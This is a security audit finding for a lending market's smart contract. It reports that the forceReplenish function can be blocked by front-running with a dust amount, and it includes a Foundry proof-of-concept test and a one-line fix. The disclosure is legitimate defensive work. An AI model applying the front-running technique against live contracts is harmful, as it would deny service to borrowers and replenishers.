 ## Tags

- bug
- 2 (Med Risk)
- satisfactory
- sponsor confirmed
- selected for report
- M-13

# [`Market::forceReplenish` can be DoSed](https://github.com/code-423n4/2022-10-inverse-findings/issues/443) 

# Lines of code

https://github.com/code-423n4/2022-10-inverse/blob/main/src/Market.sol#L562


# Vulnerability details

## Impact
If a user wants to completely forceReplenish a borrower with deficit, the borrower or any other malicious party can front run this with a dust amount to prevent the replenish.

## Proof of Concept
```javascript
    function testForceReplenishFrontRun() public {
        gibWeth(user, wethTestAmount);
        gibDBR(user, wethTestAmount / 14);
        uint initialReplenisherDola = DOLA.balanceOf(replenisher);

        vm.startPrank(user);
        deposit(wethTestAmount);
        uint borrowAmount = getMaxBorrowAmount(wethTestAmount);
        market.borrow(borrowAmount);
        uint initialUserDebt = market.debts(user);
        uint initialMarketDola = DOLA.balanceOf(address(market));
        vm.stopPrank();

        vm.warp(block.timestamp + 5 days);
        uint deficitBefore = dbr.deficitOf(user);
        vm.startPrank(replenisher);

        market.forceReplenish(user,1); // front run DoS

        vm.expectRevert("Amount > deficit");
        market.forceReplenish(user, deficitBefore); // fails due to amount being larger than deficit
        
        assertEq(DOLA.balanceOf(replenisher), initialReplenisherDola, "DOLA balance of replenisher changed");
        assertEq(DOLA.balanceOf(address(market)), initialMarketDola, "DOLA balance of market changed");
        assertEq(DOLA.balanceOf(replenisher) - initialReplenisherDola, initialMarketDola - DOLA.balanceOf(address(market)),
            "DOLA balance of market did not decrease by amount paid to replenisher");
        assertEq(dbr.deficitOf(user), deficitBefore-1, "Deficit of borrower was not fully replenished");

        // debt only increased by dust
        assertEq(market.debts(user) - initialUserDebt, 1 * replenishmentPriceBps / 10000, "Debt of borrower did not increase by replenishment price");
    }
```
This requires that the two txs end up in the same block. If they end up in different blocks the front run transaction will need to account for the increase in deficit between blocks. 

## Tools Used
vscode, forge

## Recommended Mitigation Steps
Use `min(deficit,amount)` as amount to replenish
